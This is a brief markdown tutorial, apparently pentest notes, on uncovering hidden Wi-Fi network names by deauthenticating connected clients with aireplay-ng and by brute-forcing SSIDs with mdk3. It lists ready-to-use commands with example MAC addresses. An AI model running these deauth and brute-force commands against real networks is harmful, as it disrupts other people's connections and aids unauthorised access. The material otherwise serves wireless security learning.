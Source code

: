 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.
## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name. 
```
sudo airmon-ng start wlan1
```
```
sudo airodump-ng wlan1mon
```
```
sudo aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
sudo mdk3 wlan0mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
